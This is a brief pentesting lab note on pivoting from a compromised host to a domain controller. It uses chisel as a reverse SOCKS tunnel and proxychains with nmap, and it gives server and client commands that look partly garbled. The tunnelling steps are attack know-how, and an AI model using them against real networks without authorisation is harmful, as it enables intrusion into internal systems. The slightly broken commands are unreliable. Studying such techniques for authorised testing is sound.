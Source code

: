 Let's say we have our Host Machine and Victim Machine with the following addresses. The goal machine is the machine that we are trying to tunnel to.

Attacker Machine (Through VPN) - 10.0.30.67/24
Victim Machine - 10.0.30.7/24 (Also has another Ethernet adapter to 10.0.10.0/24)
Goal Machine - 10.0.10.89/24 - DOMAIN CONTROLLER

In some way, I was able to use our Attacking Machine to do some sort of exploit and obtain RCE privileges on the Victim Machine. I can essentially use the Victim Machine as a proxy to pivot to the Goal machine.

`https://github.com/jpillora/chisel.git`
> Go to "Releases"
> Install chisel_1.9.1_linux_386.gz (LINUX)
> Install chisel_1.9.1_windows_386.gz (WINDOWS)

* Transfer the chisel.exe file to the Victim Machine
	* Just do it over a simple python server or smth

`./chisel server -p -p 8000 reverse` > RUN ON VICTIM MACHINE
`./chisel client <VICTIM$IP>:8000 R:socks` > RUN ON ATTACKER MACHINE
> Looking to see "Connected" on the Attacking Machine
> As well as a session established on the Victim Machine

We can now use Proxychains and prepend that to ANY command that we want to run

`proxychains nmap -sT -p 88 -Pn -n 10.0.10.89` (Just as an example)
> If port 88 is open on this device, then that probably means that its the DC!

We should now be able to reach the domain controller by tunneling through the victim machine.
